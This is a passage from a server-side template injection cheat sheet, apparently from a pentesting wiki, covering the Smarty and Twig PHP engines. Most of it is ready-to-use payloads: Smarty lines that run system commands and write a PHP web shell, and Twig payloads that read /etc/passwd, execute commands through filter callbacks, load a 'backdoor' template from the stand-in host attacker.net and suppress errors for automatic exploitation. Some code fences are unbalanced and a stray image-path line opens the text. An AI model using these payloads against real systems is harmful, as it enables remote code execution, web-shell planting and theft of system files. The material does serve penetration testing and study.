 ```
- More info in [[https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756|https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756]]

##

### Smarty (PHP)

```php
{$smarty.version}
{php}echo `id;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```
```
**More information**

- In Smarty section of [[https://portswigger.net/research/server-side-template-injection|https://portswigger.net/research/server-side-template-injection]]
- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty]]

### Twig (PHP)

- `{{7*7}} = 49`
- `${7*7} = ${7*7}`
- `{{7*'7'}} = 49`
- `{{1/0}} = Error`
- `{{foobar}} Nothing`

```python
#Get Info
{{_self}} #(Ref. to current application)
{{_self.env}}
{{dump(app)}}
{{app.request.server.all|join(',')}}

#File read
"{{'/etc/passwd'|file_excerpt(1,30)}}"@

#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id',""]|sort('system')}}

#Hide warnings and errors for automatic exploitation
{{["error_reporting", "0"]|sort("ini_set")}}
```
```
**Twig - Template format**

```php
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);
```